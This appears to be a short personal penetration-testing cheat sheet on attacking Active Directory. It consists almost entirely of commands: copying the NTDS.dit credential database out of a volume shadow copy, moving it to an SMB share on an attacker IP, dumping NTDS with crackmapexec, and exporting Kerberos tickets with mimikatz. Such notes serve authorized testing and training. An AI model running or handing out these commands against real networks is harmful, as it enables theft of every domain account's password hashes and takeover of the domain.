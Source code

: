 # AD Tips

% active diretory

## Manual dumping NTDS.DIT as a user in Admin group/DA group
```
# Check local group membership > Admin group ?
net localgroup

# Check user priv including Domain
net user <USERNAME>

# Shadow copy of C:i, note the Shado copy volume name
vssadmin CREATE SHADOW /For=C:

# Copy NTDS.DIT form the VSS
# example: cmd.exe /c copy \\?\GLOBALROOT\Device\HarddiskVolumeShadowCopy2\Windows\NTDS\NTDS.dit c:\NTDS\NTDS.dit
cmd.exe /c copy \\?\GLOBALROOT\Device\<..> c:\NTDS\NTDS.dit

# Create a SMB share on the attacker's machine

#  Transferring NTDS.dit to Attack Host
cmd.exe /c move C:\NTDS\NTDS.dit \\<ATK IP>\<SHARENAME>
```

## Dumping NTDS.DIT - netexec (uses VSS)
```
crackmapexec smb <IP> -u <USER> -p <PASSWD> --ntds
```

## Harvest kerberos tickets from windows
```
# Harvest kerberos tickets from windows

# From mimikatz
mimikatz # privilege::debug
sekurlsa::tickets /export

dir *.kirbi
```
